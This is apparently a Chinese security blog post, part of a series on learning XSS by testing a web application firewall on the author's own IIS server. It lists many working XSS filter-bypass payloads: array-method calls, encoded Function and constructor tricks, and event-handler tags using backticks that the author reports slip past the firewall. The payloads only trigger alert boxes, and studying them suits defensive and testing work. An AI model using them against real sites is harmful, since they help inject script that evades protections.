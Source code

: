 ### 前言
- - -
今天又换了款waf，因为waf要IIS环境，我发现我是个手残党，一看就懂，操作就废，搭建个IIS环境没成功。后来有朋友说我买的服务器有重置系统，那里可以选择ASP/.NET环境，今天搭建好了。

![1](https://ws1.sinaimg.cn/large/006Xzox4ly1g1ky4we8ghj306o06oq34.jpg)

### 提醒
- - -
本文分两部分，前部分是总结新学的姿势，后半部分测试Waf。

### 数组方式
- - -
前两篇文章，我们利用js里的对象成员方法也可以用数组的形式的表示，以此构造了许多payload，在数组内将敏感函数拼接，以此来绕过。以`top`对象为演示的，在Javascrip中，可以连接数组的函数有其他可以补充的。

#### map()函数
- - -
map函数可以返回一个数组`[1].map`，而且我们在使用`map`函数的时候往往会传入一个函数，如果我们传递一个`alert`函数，那么将触发xss。
```php
[1].map(alert)
```
![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g200cpnu7bj30lk03z0sp.jpg)

类似的数组操作函数不在少数，我所知的就有**find**，**every**，**filter**，**forEach**，**findIndex**。它们和**map**函数都有一个共同的特点，可以返回数组，而且在使用的同时还以可以传入一个函数，这就为我们构造payload提供更多的选择。

我们思考一下，在那些情况下我们可以使用，其实满多，可以先看个demo。

```php
<img src=1 onerror=[1].filter(alert)>
```
成功弹窗

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g203d50hfzj30ql094aal.jpg)

那么如何更进一步呢，我们先思考下面这个例子。

```php
<img src=1 onerror=['ale'%2b'rt'].map(top['ev'%2b'al'])[0]['valu'%2b'eOf']()(/xss/)>
```
将`alert`函数以数组的方式拼接保存，通过嵌套`top`对象拆分带入`eval`函数，`valueOf`方法将返回值`/xss/`，成功弹窗。

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g204i32laqj30qb09mgm7.jpg)

从上面的例子中，我们不难看出，javascrip的这类对象方法不在少数，如果我们要寻找其他类似函数，首先满足`返回数组`，或者`字符串`，再能够带入我们的`函数`。

### function函数
- - -
在javascript，定义函数的方式有两种：一种是函数声明，另一种就是函数表达式。

这里返回结果为变量名`demo`，函数表达式也可以叫匿名函数，基本特征是没有函数名，

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g204yvqam0j30fe05wglo.jpg)

如果我们向匿名函数内添加`形参`为函数alert，再执行函数，那么可以达到弹窗的效果嘛?

```Function('alert(1)')();```答案显而易见。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g205htqg05j30ts09egmc.jpg)

然而alert关键字还是太敏感了，可以尝试将形参编码。

```Function('al\x65\x72\x74\x281\x29')();```

成功弹窗。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g205pwfwjvj30ts09i0th.jpg)

拼接也是可以达到同样的效果```Function('ale'%2b'rt(1)')();```

### open()属性
- - -
open()方法属性打开一个新的浏览器窗口，可在括号内加入参数```open(alert(1))```

成功弹窗。

![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g207srej3gj30vn09cdgk.jpg)

好玩的是，我们使用伪协议时，将会在新窗口弹出。

```<body onpageshow=open('java'%2b'script:ale'%2b'rt(1)') >```

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g2079o9zibj30vn08k756.jpg)

### 神奇的constructor
还记得前篇文章[测试WAF来学习XSS姿势(二)](https://www.anquanke.com/post/id/176300)执行代码姿势补充那段嘛，当时我以为自己，已经把`constructor`的坑填完了，早上起来查资料学习，又发现一个可用知识。

constructor是一个对象的属性，这个属性存在在此对象的prototype中, 指向此对象的构造函数。如果该对象是它自己呢?

```constructor.constructor(alert(1))```

成功触发xss

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g20oq60wojj30vn09mq3p.jpg)

如果constructor带入的是完整的函数，比如alert,prompt,confirm，那么不需要执行。怎么理解呢?

在这个demo中，我们将函数拼接，注意后面()括号，它是有必要的。

```constructor.constructor('al'%2b'ert(1)')()```

对于编码来说也是一样的，这里我们使用的是反引号，所以后面要跟着一对反引号。
```
constructor.constructor`al\x65rt\x28/xss/\x29```
```

### Waf测试
- - -
首先，我们先拿来些常用标签看看，是否会被Waf拦截，如果这个标签一出现就拦截，那我们不必在此浪费时间。

Waf拦截了，也很正常，常见一些标签`<svg>` `<img>`基本不考虑。

![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g20pitr8x3j30vn07zjrt.jpg)

找一些略微生僻的，例如```<input autofocus onfocus=alert(1)>```

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g20puuqh9kj30vn04s74o.jpg)

虽然拦截了，但是当我们把alert去掉后，就不拦截，说明这个标签可用。

![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g20px6nq6lj30vn04uq3a.jpg)

`alert`不行，可以考虑的有`prompt`，`confirm`，还有```window.onerror=alert;throw 1```这个在这里有些鸡肋不考虑。

成功弹窗。

![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g20q4y8pftj30vn093751.jpg)

下面给几个类似的，也都能绕过Waf
```php
<details open ontoggle=prompt(1)>
<button onfocus=prompt(1) autofocus>
<select autofocus onfocus=prompt(1)>
```
#### 反引号
- - -

存在alert函数，但是Waf并不拦截。

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g20r5rwnwyj30vn04n0t4.jpg)

但是当我们加上`()`括号，就拦截了。

![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g20r88lsw4j30vn07z3z0.jpg)

回去查看Waf拦截记录，可以看出，是触发了某种规则。

![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g20re1issej30c80ae3yi.jpg)

这个规则有个`缺陷`，alert函数后面带有`()`括号就拦截，那么如果我`不用括号`呢?我们不妨来试试`反引号`。

```php
<details/open/ontoggle="alert`1`">
```

![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g20rj1z6b3j30vn09cdgn.jpg)

成功绕过，注意这里包括的一点要用`双引号`，单引号会拦截。

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g20ro44atcj30vn07y3z0.jpg)



